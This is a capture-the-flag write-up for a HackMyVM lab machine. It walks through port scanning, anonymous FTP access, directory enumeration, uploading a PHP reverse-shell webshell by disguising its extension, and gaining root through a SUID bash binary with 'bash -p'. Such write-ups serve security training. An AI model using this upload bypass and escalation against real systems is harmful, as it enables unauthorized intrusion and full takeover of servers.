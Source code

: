 ```yaml
---
title: Liceo Writeup
date: 2024-04-10
categories:
  - Writeups
tags:
  - Linux
  - Enumeration
  - PrivEsc
  - Ftp
  - File Upload
  - HackMyVm
---
```


# Arp-scan 

 Detecting the ip of the machine

```bash
192.168.0.209 08:00:27:76:63:4b PCS Systemtechnik GmbH
```

# Ports

Starting with port scanning by using nmap

```bash
21/tcp open  ftp     vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-rw-r--    1 1000     1000          191 Feb 01 14:29 note.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.0.101
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 68:4c:42:8d:10:2c:61:56:7b:26:c4:78:96:6d:28:15 (ECDSA)
|_  256 7e:1a:29:d8:9b:91:44:bd:66:ff:6a:f3:2b:c7:35:65 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Liceo
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 08:00:27:76:63:4B (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

We can see that 80, 22 and 21 ports are opened
# FTP

```shell
lftp 192.168.0.209
lftp 192.168.0.209:~> user anonymous
lftp anonymous@192.168.0.209:~> ls
-rw-rw-r--    1 1000     1000          191 Feb 01 14:29 note.txt
lftp anonymous@192.168.0.209:/> cat note.txt 
Hi Matias, I have left on the web the continuations of today's work, 
would you mind contiuing in your turn and make sure that the web will be secure? 
Above all, we dont't want intruders...
```

# Url Enumeration

Use Dirsearch for directory discovery

```shell
dirsearch  -u http://192.168.0.209/
[04:51:20] 301 -  316B  - /uploads  ->  http://192.168.0.209/uploads/  [04:51:20] 200 -  408B  - /uploads/                                    [04:51:21] 200 -  233B  - /upload.php
```

we can see there is a 'upload.php', which we can probably use for FIle Upload
## File upload

We can use the webshell from /usr/share/webshells/php/php-reverse-shell.php 

```shell
cp /usr/share/webshells/php/php-reverse-shell.php ~/
cp php-reverse-shell.php shell1.jpg
```

once we uploaded it, we use burp to change into 'shell1.phtml', which can be successfully uploaded.

![](/assets/img/Liceo/upload_file.png)

Then we access '/uploads/shell1.phtml' and then we can get a low shell.

Under /home/dev, we are able to get the user flag.


## Privilege Escalation

```shell
find / -user root -perm /4000 2>/dev/null
/usr/bin/bash
```

then we can do 

```shell
/usr/bin/bash -p
```

and we can get root permission

